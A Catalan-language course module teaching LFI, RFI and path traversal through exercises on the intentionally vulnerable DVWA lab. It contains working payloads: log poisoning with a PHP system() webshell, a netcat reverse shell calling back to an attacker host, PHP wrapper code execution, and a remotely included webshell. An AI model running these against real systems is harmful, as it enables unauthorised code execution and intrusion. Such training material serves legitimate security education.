# 01. Vulnerabilitat LFI/RFI i Path Traversal

**Local File Inclusion (LFI)**: Vulnerabilitat que permet a un atacant incloure fitxers locals del servidor web dins de l'execució de l'aplicació. Si el fitxer conté codi PHP, aquest s'executarà.

**Remote File Inclusion (RFI)**: Permet a un atacant incloure fitxers remots des d'un servidor extern, permetent l'execució de codi maliciós (RCE).

**Path Traversal (Directory Traversal)**: Tècnica que permet navegar per l'arbre de directoris del servidor utilitzant seqüències de rutes relatives per accedir a fitxers fora del directori de l'aplicació web.

## Vulnerabilitats relacionades amb Broken Access Control

- LFI/RFI: Permeten accedir i executar fitxers sense autorització
- Path Traversal: Permet saltar-se restriccions de directori
- IDOR: Permet accedir a recursos específics manipulant identificadors
- File Upload: Permet pujar fitxers maliciosos que poden executar-se

Impacte de la vulnerabilitat LFI/RFI

- ✅ Lectura de fitxers sensibles - /etc/passwd, configuracions, backups, claus SSH, etc.
- ✅ Exposició de codi font - Revela la lògica de negoci, credencials, etc.
- ✅ Execució remota de codi (RCE) - Mitjançant tècniques d'escalada de privilegis
- ✅ Moviment lateral - Pivotar cap a altres sistemes de la xarxa (carpetes compartides, etc.)

### Com funciona Path Traversal?

Les aplicacions web son vulnerables a Path Traversal quan construeixen rutes de fitxers concatenant directoris base amb l'entrada de dades d'un usuari o paràmetres que són modificables:

```php
<?php
// Codi vulnerable
$fitxer = $_GET['pagina'];
include("/var/www/html/" . $fitxer);
?>
```

Funcionament normal:

```
Input: pagina=contacte.php
Include: /var/www/html/contacte.php
Resultat: contacte.php
```

Atac Path Traversal:

```
Input: pagina=../../../etc/passwd
Include: /var/www/html/../../../etc/passwd
Resultat: /etc/passwd  -> L'accés fora del directori web!
```

### Com funciona LFI?

LFI es produeix quan una aplicació PHP permet a un usuari incloure fitxers locals mitjançant funcions com:

```php
<?php
// Funcions d'inclusió per defecte vulnerables a LFI
include($_GET['page']);
require($_GET['file']);
include_once($_GET['template']);
require_once($_GET['module']);
// Funció vulnerable relacionada amb Path Traversal
echo file_get_contents($_GET['file']);
?>
```

**Diferència clau:**

- Path Traversal: Només llegeix el contingut del fitxer, no executa codi PHP.
- LFI: Executa el fitxer com a codi PHP independentment de l'extensió, si conté <?php ... ?>, s'executarà.

## LFI amb DVWA

**Accedir a File Inclusion**:

1. Login a DVWA
2. Set Security Level: **Low**
3. Menú lateral: **File Inclusion**



**Veure com funciona**:

```
Input (URL): page=include.php
Output: Mostra el contingut de include.php
```

```
Input (URL): page=file1.php
Output: Mostra el contingut de file1.php
```



### **Testing de Path Traversal**:

**Provar accedir a un recurs intern conegut (fitxers del sistema)**:

```
Input: page=../../../../../../etc/passwd
```



**Path Traversal confirmat!**

### Exemple 2: LFI Filename Fuzzing amb DVWA

DVWA disposa de les següents pàgines llistades

```
page=file1.php
page=file2.php
page=file3.php
```

Si volem accedir a un fitxer que no existeix, per exemple `file7.php` ens mostra un error de PHP.



Si pensem que hi ha una seqüència lògica podem fer fuzzing per intentar esbrinar si existeixen noves pàgines i indicar a Burp o Wfuzz que filtri pels errors que apareixen en les pàgines que no existeixen.

1. **Burpsuite Activar Intercept**: Proxy → Intercept → Intercept is on

2. **Carregar la pàgina de File Inclusion (file1.php)**

3. **A Burp, veure el request interceptat**:



4. **Enviar la petició a l'Intruder** → Send to Intruder (CTRL + I)

- Seleccionar tipus d'atac `Sniper Attack`
- Selecciona el número de fitxer per fer fuzzing `1`
- A l'apartat positions fer clic al botó `Add §`
- A payloads seleccionar el tipus `Number`
- Seleccionar un rang de 10 elements `To: 10`



5. **A l'apartat Settings Habilitar el Grep-Match de l'error que apareix**

- Podem posar la paraula `Warning` que apareix al missatge de PHP.



6. **Clic a `Start Attack`**



### Escalada de privilegis LFI to RCE

Local File Inclusion (LFI) és una vulnerabilitat que permet llegir fitxers del sistema operatiu, però per si sola no permet executar codi.

Aconseguir un Remote Code Execution (RCE) requereix combinar LFI amb altres tècniques per transformar la lectura de fitxers en execució de codi remot.

**Com és el procés d'Escalat?**

**Part 1:** Descobriment i Explotació Bàsica de LFI

Primer detectem la vulnerabilitat LFI:

```
http://web.cat/page.php?file=../../../../etc/passwd
```

En aquest punt podem llegir fitxers, però no executar codi. La pregunta clau és: com convertim aquesta lectura en execució?

**Part 2:** Identificació del Vector d'Escalat

L'escalat LFI → RCE segueix aquest raonament:

```
LFI (llegir fitxers) i que el fitxer disposi de codi PHP injectat = RCE
```

Per tant, necessitem:

- 1. Injectar codi PHP en algun fitxer del sistema
- 2. Incloure aquest fitxer amb LFI
- 3. Executar el codi PHP que hem injectat

### Opció 1: Log Poisoning (Enverinament de fitxers de logs)

És la tècnica més utilitzada, consisteix en modificar fitxers de logs o sessions ja existents.

**0. Permisos per llegir els logs**

```bash
sudo chmod 755 /var/log/apache2/
sudo chmod 644 /var/log/apache2/access.log
```

**1. LFI: Carregar el fitxers de logs del sistema**

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/fi/?page=../../../../../../var/log/apache2/access.log
```



**2. INJECCIÓ: Enviar un payload de PHP al log**

```bash
curl -A "<?php system(\$_GET['cmd']); ?>" http://IP_DE_LA_VM/dvwa/
```



**3. EXECUCIÓ: Carregar el fitxer de logs amb l'execució d'una comanda**

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/fi/?page=../../../../../../var/log/apache2/access.log&cmd=id
```



**4. REVERSE SHELL amb Netcat**

```bash
#Kali
nc -nvlp 4444
```

Per executar la reverse shell heu de posar la IP del a VM i la IP del Kali.

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/fi/?page=../../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|%2Fbin%2Fbash%20-i%202%3E%261|nc%20IP_DEL_KALI%204444%20%3E%2Ftmp%2Ff
```



### Opció 2: PHP Wrappers PHP Input per l'execució de codi

Els PHP wrappers són fluxos especials (streams) que PHP proporciona per accedir o manipular dades com si fossin fitxers.

Amb PHP es poden enviar dades adjuntes a una petició HTTP fent ús del stream `php://input`, si aquest stream de dades conté codi PHP, aquest s'executarà i es renderitzarà juntament amb el contingut de la pàgina sol·licitada.

```bash
curl -X POST "http://IP_DE_LA_VM/dvwa/vulnerabilities/fi/?page=php://input" \
     -H "Cookie: PHPSESSID=...; security=low" \
     --data "<?php system('id'); ?>"
```



### Opció 3: PHP Wrappers Execució inline

L'objectiu d'aquest Wrapper és executar codi inline (directament a la URL).

data://text/plain,<?php ... ?> - Wrapper per l'execució de codi php directament a la URL



### Opció 4: PHP Wrappers PHP Filter per l'obtenció del codi font

L'objectiu d'aquest Wrapper és llegir fitxers PHP sense executar-los (obtenir codi font).

php://filter - Wrapper per la lectura de codi font

```
php://filter/convert.base64-encode/resource=FITXER
Exemple:
page=php://filter/convert.base64-encode/resource=index.php
```

El resultat apareixerà amb base64 i el podem decodificar directament al terminal:

```bash
#Resultat: Fitxer index.php decodificat de base64
echo "PD9...=" | base64 -d
```



## RFI amb DVWA

### Com funciona RFI?

RFI es produeix quan una aplicació PHP permet a un usuari incloure fitxers remots mitjançant funcions de PHP:

```php
<?php
// Vulnerable a RFI
include($_GET['pagina']);
?>
```

```
pagina=http://atacant.cat/shell.txt
```

### 1. Crear webshell al servidor atacant (Kali)

```php
<?php
//shell.txt
system($_GET['cmd']);
?>
```

### 2. Aixeca un servidor web simple amb Python (Kali)

```bash
#A la carpeta on es troba shell.txt
python -m http.server
```

### 3. Incloure el fitxer remot (DVWA)

```
http://IP_DE_LA_VM/dvwa/vulnerabilities/fi/?page=http://IP_DEL_KALI:8000/shell.txt&cmd=id
```

### 4. Verificar l'execució de codi remot


